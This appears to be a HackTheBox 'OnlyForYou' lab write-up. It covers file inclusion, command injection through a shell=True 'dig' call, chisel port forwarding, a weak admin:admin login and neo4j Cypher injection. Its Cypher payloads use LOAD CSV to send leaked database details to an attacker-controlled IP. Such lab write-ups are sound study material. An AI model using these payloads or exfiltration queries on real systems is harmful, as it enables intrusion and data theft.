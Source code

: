 <h3> OnlyForYou HackTheBox </h3>

Difficulty = Medium

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/236711287-ceef7d4e-9e1b-4ac7-badc-ebe28f16d87c.png)

Update your */etc/hosts* file with the content of the domain name *only4you.htb*

Going over to the web server shows this
![image](https://user-images.githubusercontent.com/127159644/236711396-45b855af-4ddc-4ac6-87a5-352a24ba7d72.png)

Using *ffuf* I fuzzed for subdomain on the vhosts
![image](https://user-images.githubusercontent.com/127159644/236711542-c0362d61-3615-4337-964a-b9767825ec42.png)

Adding the new sub domain *beta.only4you.htb* to my */etc/hosts* file
![image](https://user-images.githubusercontent.com/127159644/236711590-70da737f-b94f-4e51-8266-b1b4124cf0de.png)

Checking the sub domain shows this
![image](https://user-images.githubusercontent.com/127159644/236711622-20a4ed18-e7fc-4ab4-9bef-115d93b2d1f5.png)

I downloaded the source code for this web instance
![image](https://user-images.githubusercontent.com/127159644/236711685-b024754b-a351-45b8-bc32-75ec0f69703e.png)

There's a file upload functon but I didn't particularly find it interesting cause it was rather secured to me 🤔

But here's the vulnerable part of the code
![image](https://user-images.githubusercontent.com/127159644/236711846-fd096b18-edfa-475a-bfe6-d9d867d0b989.png)

The user can query files for download and there's a prevention against LFI but we can still achieve file inclusion without using *../*
![image](https://user-images.githubusercontent.com/127159644/236712019-dbbffe0c-5cf4-445f-8518-c5e59f253816.png)

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/enumerate.py) to automate finding of files 

We know that the server is hosted on *Nginx* from *Wappalyzer Result*
![image](https://user-images.githubusercontent.com/127159644/236713368-0084a968-f8bf-44ae-b873-11e106219ef7.png)

And the default path for web server (vhost) config running nginx is */etc/nginx/sites-enabled/default*

Checking it shows the web path to the vhost which turns out to be */var/www/only4you.htb/ and /var/www/beta.only4you.htb*
![image](https://user-images.githubusercontent.com/127159644/236713662-546d441f-f348-44a7-acef-080cda872f97.png)

Now we can enumerate more files

Out of curiosity we can tell that the web server is built with python and since the sub domain for the vhost has app.py then the doman should also have 🤔

Checking it shows that it's indeed there */var/www/only4you.htb/app.py*
![image](https://user-images.githubusercontent.com/127159644/236714308-46607e76-c122-4a0e-8a53-6525a37cf52b.png)
![image](https://user-images.githubusercontent.com/127159644/236714364-b44ee2ea-8bb5-4fb7-952d-59821593c155.png)

Looking at the code we can see that it is built on the *form* module 

Lets fetch the *form* module at */var/www/only4you.htb/form.py*
![image](https://user-images.githubusercontent.com/127159644/236714557-7fcf1c9c-a224-4d83-a68a-8e58ef829055.png)
![image](https://user-images.githubusercontent.com/127159644/236714641-daefa71d-a6bc-4502-a434-8d267d7dab9b.png)

Looking at the code we can see that it does:

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

So far that variable shell is set to True we can basically inject command which will lead to command injection and maybe shell :D

Lets test it out
![image](https://user-images.githubusercontent.com/127159644/236715685-48a2499c-7918-4999-b4d0-20e46cf07711.png)

It works cool here's the [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/execute.py) that I made for it

Using it to get shell works
![image](https://user-images.githubusercontent.com/127159644/236715962-cef7b857-8b75-4845-bb32-d01a8c914c0f.png)

Here's how I stabilized my shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Checking the internal ports avaiable shows that a service is running on port 3000 and 8001
![image](https://user-images.githubusercontent.com/127159644/236716251-7e6f788d-86ce-4c4b-93a9-bad02d10b5a0.png)

Lets port forward using chisel shall we 🙂
![image](https://user-images.githubusercontent.com/127159644/236716419-626c5220-9a6a-4150-aeab-5ff3d51a0891.png)

```bash
Command:

Host: chisel server -p 9001 --reverse
Target: ./chisel client {host}:9001 R:3000:127.0.0.1:3000 &
```

We can confirm that it was successfully port forwarded by scanning our host
![image](https://user-images.githubusercontent.com/127159644/236716902-a733ac13-25e0-4a9f-9c1e-e3b7e3f67f08.png)

Now lets see what it contains or rather what it is 😅
![image](https://user-images.githubusercontent.com/127159644/236717017-4ae503d5-2697-4403-8c33-8eee48cc1f4d.png)

Hmmmm that's an instance of Gogs

I checked /explore to see if i can get any repo but i didn't tho i got two users which were *John and Administrator*
![image](https://user-images.githubusercontent.com/127159644/236717468-98e81d97-39c4-4766-9876-cfe9f608b44c.png)

Nothing much we can do now

Lets port forward the service on port 8001 and see what we can fetch 

After I did that (the same i port forwarded earlier) looking at the page shows this
![image](https://user-images.githubusercontent.com/127159644/236717677-1742d53a-3490-4f89-ad45-e317176d5214.png)

Trying weak cred *admin:admin* works
![image](https://user-images.githubusercontent.com/127159644/236717758-e9528367-0261-48b4-bfe9-62c79d54b704.png)

Poking around I saw the notes left by the admin
![image](https://user-images.githubusercontent.com/127159644/236717899-c48aa7c2-60f8-45d9-9d1e-2ac70d875c8d.png)

The db is based of neo4j interesting 🤔

There's a search function of the web app
![image](https://user-images.githubusercontent.com/127159644/236717977-991faca1-807d-4ac0-9506-617505ffc1fb.png)

Looking for how to exploit neo4j database leads to Cypher Injection here's the [source](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)

We can test with this query through Burpsuite to know the version, then url encode and send it a web server hosted by us.

```sql
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.175/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Trying the query leaks the version
![image](https://user-images.githubusercontent.com/127159644/236718595-8bf9d822-d889-4245-b196-6c50ed12e07b.png)
![image](https://user-images.githubusercontent.com/127159644/236718623-4da759bb-625a-4114-8357-512c73ff0cef.png)

Now lets get the list of tables

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.175/?label='+label as l RETURN 0 as _0 //
```



